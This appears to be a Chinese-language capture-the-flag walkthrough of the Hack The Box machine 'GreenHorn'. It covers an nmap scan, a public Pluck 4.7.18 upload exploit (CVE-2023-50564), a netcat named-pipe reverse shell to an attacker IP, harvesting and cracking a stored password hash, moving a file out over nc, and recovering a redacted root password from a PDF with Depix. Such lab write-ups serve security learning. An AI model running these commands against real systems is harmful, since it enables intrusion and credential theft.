







# 服务
```
┌──(root㉿kali)-[~]
└─# nmap -Pn -p- 10.10.11.25   
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-22 05:01 EDT
Stats: 0:16:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 66.59% done; ETC: 05:25 (0:08:12 remaining)
Stats: 0:28:22 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 95.55% done; ETC: 05:31 (0:01:19 remaining)
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.43s latency).
Not shown: 65452 closed tcp ports (reset), 61 filtered tcp ports (host-unreach), 19 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 1808.90 seconds


```

写host
```
echo "10.10.11.25 greenhorn.htb" >> /etc/hosts
```



这个页面暴露出软件版本：pluck 4.7.18


使用[CVE-2023-50564](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC)

修改

shell.php


poc.py


拿到shell




ZIP file path: ```/root/htb/GreenHorn/CVE-2023-50564_Pluck-v4.7.18_PoC-main/shell.zip```

tty，返回一个稳定shell
```
/bin/sh -i

rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 443 >/tmp/f
```

找到一个密码：
```
cat /var/www/html/pluck/data/inc/functions.admin.php | grep password

$ cd /var/www/html/pluck/data/
$ cd settings
$ cat pass.php
$ <?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

拿去在线解密是：iloveyou1


就是用户junior的密码：
```
$ su junior
Password: iloveyou1
id
uid=1000(junior) gid=1000(junior) groups=1000(junior)

```

传输桌面的Using OpenVAS.pdf文件
```
nc -lvp 139 > 'Using OpenVAS.pdf'
nc 10.10.16.19 139 < 'Using OpenVAS.pdf'
```

机器安装了OpenVAS




尝试执行
```
junior@greenhorn:~$ sudo /usr/sbin/openvas
sudo /usr/sbin/openvas
[sudo] password for junior: iloveyou1

junior is not in the sudoers file.  This incident will be reported.
junior@greenhorn:~$ 

```


# 提权

提取pdf里被遮挡的密码图片
```
pdfimages "./Using OpenVAS.pdf" greenhorn
```

使用[Depix](https://github.com/spipm/Depix)这个项目

执行：
```
python3 depix.py \
-p /root/htb/GreenHorn/greenhorn-000.ppm \
-s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
-o /root/htb/GreenHorn/output0.png

```



得到明文：



注意密码要去掉空格：sidefromsidetheothersidesidefromsidetheotherside


```
$ su root
Password: sidefromsidetheothersidesidefromsidetheotherside
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
id
uid=0(root) gid=0(root) groups=0(root)

```